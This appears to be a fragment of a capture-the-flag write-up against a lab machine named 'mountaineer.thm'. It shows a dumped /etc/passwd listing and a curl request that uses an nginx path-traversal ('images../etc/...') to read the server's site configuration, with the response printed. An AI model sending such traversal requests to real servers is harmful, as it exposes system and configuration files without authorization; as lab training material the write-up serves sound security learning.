 ```bash
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
vagrant:x:1000:1000:vagrant:/home/vagrant:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
vboxadd:x:998:1::/var/run/vboxadd:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
dovecot:x:115:121:Dovecot mail server,,,:/usr/lib/dovecot:/usr/sbin/nologin
dovenull:x:116:122:Dovecot login user,,,:/nonexistent:/usr/sbin/nologin
manaslu:x:1002:1002::/home/manaslu:/bin/bash
annapurna:x:1003:1003::/home/annapurna:/bin/bash
makalu:x:1004:1004::/home/makalu:/bin/bash
kangchenjunga:x:1006:1006::/home/kangchenjunga:/bin/bash
postfix:x:117:123::/var/spool/postfix:/usr/sbin/nologin
everest:x:1010:1010::/home/everest:/bin/bash
lhotse:x:1011:1011::/home/lhotse:/bin/bash
nanga:x:1012:1012::/home/nanga:/bin/bash
k2:x:1013:1013::/home/k2:/bin/bash
```

`curl -iLX GET -D response.txt http://mountaineer.thm/wordpress/images../etc/nginx/sites-available/default`

```bash
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 29 Oct 2024 08:39:43 GMT
Content-Type: application/octet-stream
Content-Length: 2699
Last-Modified: Sat, 30 Mar 2024 06:35:17 GMT
Connection: keep-alive
ETag: "6607b2a5-a8b"
Accept-Ranges: bytes

server {
        listen 80 default_server;
        listen [::]:80 default_server;
        server_name mountaineer.thm adminroundcubemail.mountaineer.thm;
        client_max_body_size 20M;
        # SSL configuration
        #
        # listen 443 ssl default_server;
        # listen [::]:443 ssl default_server;
        #
        # Note: You should disable gzip for SSL traffic.
        # See: https://bugs.debian.org/773332
        #
        # Read up on ssl_ciphers to ensure a secure configuration.
        # See: https://bugs.debian.org/765782
        #
        # Self signed certs generated by the ssl-cert package
        # Don't use them in a production server!
        #
        # include snippets/snakeoil.conf;

```